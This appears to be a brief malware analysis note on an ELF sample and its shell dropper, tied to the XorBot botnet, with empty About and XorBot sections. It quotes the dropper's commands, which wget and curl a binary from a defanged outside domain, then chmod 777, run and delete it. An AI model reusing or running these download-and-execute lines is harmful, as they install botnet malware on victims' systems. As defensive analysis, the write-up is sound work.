 **SHA256**: 9eac4c35a3229382569a9ffbb6466342b9f6cb23b771e49415e8999ad5cd0b35  
**FileType**: ELF  
**Sample**: [9eac4c35a3229382569a9ffbb6466342b9f6cb23b771e49415e8999ad5cd0b35](https://bazaar.abuse.ch/sample/9eac4c35a3229382569a9ffbb6466342b9f6cb23b771e49415e8999ad5cd0b35/)
**Author(OPTIONAL)**: M-Faheem-Khan  

**Table Of Contents**
- [About](#about)
- [Analysis](#analysis)
    - [Dropper](#dropper) 
    - [Xorbot](#xorbot) 

## About  
## Analysis  
### Dropper  
The script(dropper) perfroms the following actions:
- Deletes `bin.sh` which is likely a script left over from previous infections.
- Files are downloaded from `conn[.]masjesu[.]zip` the `zip` tld indicates malicous activity(`zip` domains are used for malicious puprposes due to the domain looking like a `zip` file)
- Files are downloaded using both `wget` and `curl`
- Downloads files for various architectures (i586, mips, powerpc, x86_64, i686, arm, sparc, sh4, m69k)
- The permissions for the payload are changed to `777`
- The payload is executed and then removed
- The step repeat for each architecture.
- The script then attempts to change into potential writable directories(`/tmp`, `/var/run`, `/mnt`, `/root`, `/`)
- The above steps are repeat 

```bash
# Steps to download and execute the payload
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; 
wget http[:]//conn[.]masjesu[.]zip/bins/UbfzQ4EsN9H8dTGF29dT5wpM9NODp5hI7B;
curl -O  http[:]//conn[.]masjesu[.]zip/bins/UbfzQ4EsN9H8dTGF29dT5wpM9NODp5hI7B;
/bin/busybox 
wget http[:]//conn[.]masjesu[.]zip/bins/UbfzQ4EsN9H8dTGF29dT5wpM9NODp5hI7B; 
chmod 777 UbfzQ4EsN9H8dTGF29dT5wpM9NODp5hI7B; 
./UbfzQ4EsN9H8dTGF29dT5wpM9NODp5hI7B;
rm UbfzQ4EsN9H8dTGF29dT5wpM9NODp5hI7B
```

### XorBot  




<!-- EOF -->
